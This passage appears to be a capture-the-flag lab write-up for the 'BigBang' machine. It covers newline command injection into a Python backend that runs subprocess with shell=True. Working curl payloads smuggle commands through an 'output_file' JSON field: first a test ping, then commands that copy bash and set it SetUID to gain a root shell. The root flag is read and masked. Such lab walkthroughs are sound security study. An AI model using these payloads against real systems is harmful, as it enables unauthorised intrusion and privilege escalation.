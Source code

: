 ```
' " % $ ) ( > # & ? ; < [ ] ^ ` { } |
```

### Newline Injection

Because the backend uses Python with `subprocess.run(..., shell=True)`, newline characters allow command injection:

```python
>>> subprocess.run("echo 'legit command'\nid", shell=True)
legit command
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),117(lpadmin),984(docker),987(vboxsf)
```

#### Proof of Concept

Sent a ping command to my listener:

```bash
$ curl app.bigbang.htb:9090/command \
  -d '{"command": "send_image", "output_file": "test.png\nping -c 1 10.10.14.6"}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $token"
{"error":"Error reading image file: [Errno 2] No such file or directory: 'test.png\\nping -c 1 10.10.14.6'"}
```

Observed ICMP packets on my interface:

```bash
$ sudo tcpdump -ni tun0 icmp
20:49:41.327708 IP 10.10.11.52 > 10.10.14.6: ICMP echo request
20:49:41.327728 IP 10.10.14.6 > 10.10.11.52: ICMP echo reply
```

### Getting a Root Shell

Injected commands to copy bash and set it as SetUID:

```bash
$ curl app.bigbang.htb:9090/command \
  -d '{"command": "send_image", "output_file": "test.png\ncp /bin/bash /tmp/0xdf\nchmod 6777 /tmp/0xdf"}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $token"
{"error":"Error reading image file: [Errno 2] No such file or directory: 'test.png\\ncp /bin/bash /tmp/0xdf\\nchmod 6777 /tmp/0xdf'"}
```

Spawned a root shell:

```bash
$ /tmp/0xdf -p
0xdf-5.1#
```

Retrieved root flag:

```bash
$ cat /root/root.txt
c3065984************************
```

